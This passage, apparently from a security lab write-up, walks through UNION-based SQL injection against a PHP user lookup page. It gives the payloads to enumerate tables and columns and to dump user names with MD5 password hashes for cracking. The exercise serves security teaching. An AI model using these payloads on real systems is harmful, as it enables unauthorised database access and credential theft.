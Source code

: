 \begin{enumerate}
    \item The PHP code outputs just the information of the columns \texttt{first\_name} and \texttt{last\_name}.\\
    By using unions, we can trick the server into renaming columns of the table \\\texttt{information\_schema.tables}, which contains the names of all tables, to those the PHP script will display.\\
    Inputting \texttt{' AND 1=0 UNION SELECT table\_name, NULL FROM information\_schema.tables \#} (resulting in the query \texttt{SELECT first\_name, last\_name FROM users WHERE user\_id = '' AND 1=0 UNION SELECT table\_name, NULL FROM information\_schema.tables \#'}), will make MySQL select no rows from \texttt{users} (\texttt{1=0} is always false), and put all the table names (and \texttt{null}, nothing, in the second column) in the correct columns. The \texttt{\#} is for commenting out the last \texttt{'}.
    \item Modifying the previous query by appending \texttt{WHERE table\_name LIKE 'user\%'} (resulting in the query \texttt{SELECT first\_name, last\_name FROM users WHERE user\_id = '' AND 1=0 UNION SELECT table\_name, NULL FROM information\_schema.tables WHERE table\_name LIKE 'user\%' \#'}) we can output just the tables that start with "user". This returns, among others, the table \texttt{user}.\\
    To output the columns of this table, we can use \texttt{' AND 1=0 UNION SELECT column\_name, NULL FROM information\_schema.columns WHERE table\_name = 'users' \#}, finding out the columns of that table are \texttt{user\_id}, \texttt{first\_name}, \texttt{last\_name}, \texttt{user}, \texttt{password}, and \texttt{avatar}.
    \item Following the previous command structure, we use \texttt{' AND 1=0 UNION SELECT user, password FROM users \#} in order to get the users and passwords\footnote{You can replace one of the column names to \texttt{concat(user, ":", password)} in order to get a "cleaner" format for JTR.}.\\
    This outputs the following users and (hashed) passwords:
    \begin{itemize}
        \item \texttt{admin:5f4dcc3b5aa765d61d8327deb882cf99}
        \item \texttt{gordonb:e99a18c428cb38d5f260853678922e03}
        \item \texttt{1337:8d3533d75ae2c3966d7e0d4fcc69216b}

\end{itemize}
\end{enumerate}
